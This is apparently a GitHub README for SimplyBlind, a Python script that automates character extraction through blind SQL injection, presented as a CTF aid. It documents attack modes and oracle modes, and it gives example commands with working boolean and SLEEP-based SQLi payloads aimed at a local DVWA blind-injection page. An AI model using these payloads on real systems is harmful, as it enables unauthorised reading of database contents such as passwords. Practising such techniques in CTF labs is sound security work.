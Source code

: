 # SimplyBlind  
A script to extracted characters by exploiting blind SQL injection.

Designed for Capture The Flags (CTF) as i felt it was too troublesome to meanual extract each character. This is not ment for illegal use. please do not run this script on site you do not have permisssions on.

## Quick Start Quide:  
There are 2 "attack" modes:
- Brute: Brute force every character in the table
- Quick: Quick attack narrowes down possible CHAR before checking it. making it faster than brute

Modes are set with `-m <mode>`:  
- sc   Status Code 
- reg   regex  
- redir   rediract  
- to | nto  timeout | not_timeout  

The mode identifies if the injection returned a TRUE or FALSE.

## Examples:
Reponse Status code
``` shell
python simplyBlind.py quick -p "1' AND BINARY SUBSTR(password, \!I, 1) \!S '\!C' #" -c '{"PHPSESSID":"etc7stehjcs7c4kqaa6p6kit03", "security":"low"}' --get http://localhost/vulnerabilities/sqli_blind/
```
![200](img/200.gif)
``` shell
python simplyBlind.py quick -m sc -s 200 -p "1' AND BINARY SUBSTR(password, \!I, 1) \!S '\!C' #" -c '{"PHPSESSID":"etc7stehjcs7c4kqaa6p6kit03", "security":"low"}' --get http://localhost/vulnerabilities/sqli_blind/
```
![200_2](img/200_2.gif)  

Regex:
``` shell
python simplyBlind.py quick --m reg --regex "User ID exists in the database" -p "2' AND BINARY SUBSTR(password, \!I, 1) \!S '\!C' #" -c '{"PHPSESSID":"etc7stehjcs7c4kqaa6p6kit03", "security":"low"}' --get http://localhost/vulnerabilities/sqli_blind/
```
![regex](img/regex.gif)  

timeout:
```shell
python simplyBlind.py quick -m to --timeout 0.5 -p "10' AND IF(BINARY SUBSTR(password, \!I, 1) \!S '\!C', SLEEP(0.7), FALSE) #" -c '{"PHPSESSID":"etc7stehjcs7c4kqaa6p6kit03", "security":"low"}' --get http://localhost/vulnerabilities/sqli_blind/
```
![timeout](img/time.gif)


### Common Peremeter:
`-p <payload>`   takes in a string to set custom payload. the payload takes in key that will be replaces with the appropiate value. keys, !I = incrementer, !S = symbol, !C = Char. Incrementers will run from 1 to the end of character in database or till its the same value as --limit. Symbol is used to narrow down and determin if the target character is the character we want. Character will be the character we are trying to match with.  

`-b <body>`   Takes in a string that sets the custom body. Body takes the key !P that will be replaced with the payload.  

`--get`   Set method to GET. default is POST.

`-h`   For help menu